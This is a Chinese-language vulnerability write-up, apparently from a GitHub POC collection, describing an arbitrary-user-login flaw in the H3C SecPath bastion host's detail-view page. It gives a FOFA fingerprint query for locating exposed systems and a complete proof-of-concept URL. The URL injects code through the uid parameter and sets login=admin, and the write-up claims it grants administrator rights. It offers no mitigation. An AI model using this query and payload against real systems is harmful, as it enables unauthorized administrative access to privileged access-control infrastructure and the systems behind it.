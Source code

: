 # H3C-SecParh堡垒机-get_detail_view.php-任意用户登录漏洞

## 漏洞描述

H3C SecParh堡垒机 get_detail_view.php 存在任意用户登录漏洞

与齐治堡垒机出现的漏洞相似

## 漏洞影响

> [!NOTE]
>
> H3C SecParh堡垒机 

## FOFA

> [!NOTE]
>
> app="H3C-SecPath-运维审计系统" && body="2018"

## 漏洞复现

登录页面如下

![image-20210616132951212](H3C-SecParh堡垒机-get_detail_view.php-任意用户登录漏洞.assets/1627363094115087.jpg)

POC验证的Url为

```
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```

![](H3C-SecParh堡垒机-get_detail_view.php-任意用户登录漏洞.assets/16273630944267688.jpg)

成功获取admin权限

## Goby & POC

![](H3C-SecParh堡垒机-get_detail_view.php-任意用户登录漏洞.assets/1627363094816052.jpg)